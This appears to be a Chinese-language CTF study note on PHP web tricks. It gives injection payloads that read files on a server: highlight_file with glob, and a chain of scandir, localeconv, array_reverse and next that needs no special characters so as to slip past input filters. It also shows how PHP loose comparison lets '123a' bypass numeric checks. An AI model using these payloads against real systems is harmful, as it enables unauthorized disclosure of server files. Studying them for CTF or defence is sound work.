 
## 读取文件新姿势

### highlight 高亮输出

highlight 高亮输出 + glob 搜索并返回第一个元素
```php
eval("highlight_file(glob("/f*")[0]);")
```
- highlight_file 是 php 的函数

### 无特殊字符的纯函数读取

```bash
# ls
scandir(current(localeconv()))
# localecnov() 函数返回一个包含本地数字及货币格式信息的数组。相当于Linux的ls
# current() 返回数组中当前元素的值
# scandir()就是列出目录中的文件和目录

# 打印
print_r();
print_r(scandir(current(localeconv())));
# 查看调试信息

# 定位
# array_reverse() 反转数组
# next() 指向下一个 (第二个)
next(array_reverse(scandir(current(localeconv()))))
# 此处指倒数第二个数组元素

# payload
# highlight 读取文件
highlight_file(next(array_reverse(scandir(current(localeconv())))));

```


---
## 弱比较

`==` 是PHP弱比较逻辑运算符

### 整数 和 字符串 的弱比较

尝试将字符串转换为整数，规则同 `intval()`，再比大小
- 123a == 123
- 例如，payload为123a可以绕过 is_numeric函数

### 弱比较和强比较的区别

```
==  和 !=  左右两边数据类型不同时，会将他们转化成同一格式进行比较。

=== 和 !== 左右两边数据类型不同时，则返回false
```

---